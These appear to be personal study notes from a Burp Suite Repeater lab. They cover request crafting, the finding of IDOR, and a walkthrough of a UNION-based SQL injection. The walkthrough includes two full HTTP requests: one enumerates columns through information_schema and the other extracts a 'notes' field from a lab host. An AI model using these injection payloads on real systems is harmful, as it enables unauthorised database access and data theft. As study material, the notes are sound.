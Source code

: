 # Burp Suite: *Repeater*

> Burp Suite Repeater allows us to craft and/or relay intercepted requests to a target at will.

- CAPTURE reqeusts via proxy
- EDIT requests 
- SEND requests to host
- CREATING requests from scratch
- Observing request/response objects in action

> *Postman on steroids with additional utilities*

Action:

- Basic interface navigation
- Basics of crafting requests:: TONNES of XP via my job
- `/products/:id` page
  - Broke the page by passing -ve values as `:id`
  - Found **IDOR** vulnerability within
  - Possibly even **SQLi** vulnerability
- `/about/:id` page
  - Found **IDOR** vulnerability within
  - Exploited **SQLi** vulnerability

### Notes on *SQLi(SQL injection)* vulnerability

- Added `'` initially ahead of `:id` for getting to know about ***SQLi***
  - It introduces `string` initiation in query
  - Can break any SQL query if placed incorrectly, in our case it's a lone character
- The backend was only displaying results from first row and one specific column(`id`)
  - Hence kept all of the fields `null` except for it
- Hence passed illegal non-existent IDs as parameter, for making first row blank(for actual payloads)
- Unionized results with actual query and displayed results of exploited query on first row's, first column element and utilized it
- Used four `null`'s for matching existing query pattern with `UNION`ized query
- `information_schema` table consists of all schema related information in SQL
- Additional note: *Two `\n` characters are reqd for HTTP request termination*

```HTTP
# recon for columns within query
GET /about/-1 UNION ALL SELECT group_concat(column_name),null,null,null,null FROM information_schema.columns where table_name="people" HTTP/1.1
Host: 10.10.175.176
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


# extracting payload
GET /about/-1 UNION ALL SELECT notes, null, null, null, null FROM people where id=1 HTTP/1.1
Host: 10.10.175.176
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:104.0) Gecko/20100101 Firefox/104.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1


```

> Personal note: Could have exeuted this via Postman as well

### Further studies

- SQLi attacks and common patterns
- Exploiting vulnerabilities within other noSQL databases
  - Using same concepts of SQLi(via and not via application interfaces)
  - Using DB specific concepts

### Tools

- Burp Suite Repeater
- Postman:: to learn in-depth
- cURL